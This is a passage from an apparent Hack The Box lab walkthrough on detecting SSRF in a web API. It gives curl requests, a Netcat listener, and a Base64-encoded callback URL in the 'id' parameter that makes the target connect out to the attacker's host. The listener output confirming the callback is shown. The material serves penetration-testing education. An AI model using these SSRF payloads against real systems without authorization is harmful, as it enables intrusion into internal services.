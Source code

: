 Let us first interact with it.

```shell
gitblanc@htb[/htb]$ curl http://<TARGET IP>:3000/api/userinfo
{"success":false,"error":"'id' parameter is not given."}
```

The API is expecting a parameter called _id_. Since we are interested in identifying SSRF vulnerabilities in this section, let us set up a Netcat listener first.

```shell
gitblanc@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Then, let us specify `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` as the value of the _id_ parameter and make an API call.

```shell
gitblanc@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=http://<VPN/TUN Adapter IP>:<LISTENER PORT>"
{"success":false,"error":"'id' parameter is invalid."}
```

We notice an error about the _id_ parameter being invalid, and we also notice no connection being made to our listener.

In many cases, APIs expect parameter values in a specific format/encoding. Let us try Base64-encoding `http://<VPN/TUN Adapter IP>:<LISTENER PORT>` and making an API call again.

```shell
gitblanc@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
gitblanc@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.

```shell
gitblanc@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 50542
GET / HTTP/1.1
Accept: application/json, text/plain, */*
User-Agent: axios/0.24.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

As time allows, try to provide APIs with input in various formats/encodings.

